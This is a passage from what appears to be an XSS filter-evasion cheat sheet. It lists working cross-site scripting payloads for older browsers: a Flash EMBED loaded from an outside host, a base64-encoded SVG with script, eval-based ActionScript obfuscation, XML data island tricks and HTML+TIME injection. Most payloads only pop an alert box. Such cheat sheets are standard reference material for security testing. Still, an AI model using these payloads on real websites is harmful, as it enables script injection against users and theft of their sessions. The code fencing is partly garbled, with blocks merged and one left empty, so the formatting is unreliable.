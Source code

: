 EMBED a Flash Movie That Contains XSS
Click here for a demo: http://ha.ckers.org/xss.swf

```js
<EMBED SRC="http://ha.ckers.org/xss.swf" AllowScriptAccess="always"></EMBED>
```

If you add the attributes allowScriptAccess="never" and allownetworking="internal" it can mitigate this risk (thank you to Jonathan Vanasco for the info).

EMBED SVG Which Contains XSS Vector
This example only works in Firefox, but it’s better than the above vector in Firefox because it does not require the user to have Flash turned on or installed. Thanks to nEUrOO for this one.


```js
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv
MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>

Using ActionScript Inside Flash for Obfuscation
a="get";
b="URL(\"";
c="javascript:";
d="alert('XSS');\")";
eval(a+b+c+d);
```

XML Data Island with CDATA Obfuscation
This XSS attack works only in IE and Netscape 8.1 in IE rendering engine mode) - vector found by Sec Consult while auditing Yahoo:

```js
<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML>
<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>

```
Locally hosted XML with embedded JavaScript that is generated using an XML data island
This is the same as above but instead referrs to a locally hosted (must be on the same server) XML file that contains your cross site scripting vector. You can see the result here:

```js
<XML SRC="xsstest.xml" ID=I></XML>  
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>

```

HTML+TIME in XML
This is how Grey Magic hacked Hotmail and Yahoo!. This only works in Internet Explorer and Netscape 8.1 in IE rendering engine mode and remember that you need to be between HTML and BODY tags for this to work:

```js
<HTML><BODY>
<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">

<?import namespace="t" implementation="#default#time2">
<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">
</BODY></HTML>
Assuming you can only fit in a few characters and it filters against .js
You can rename your JavaScript file to an image as an XSS vector:
```
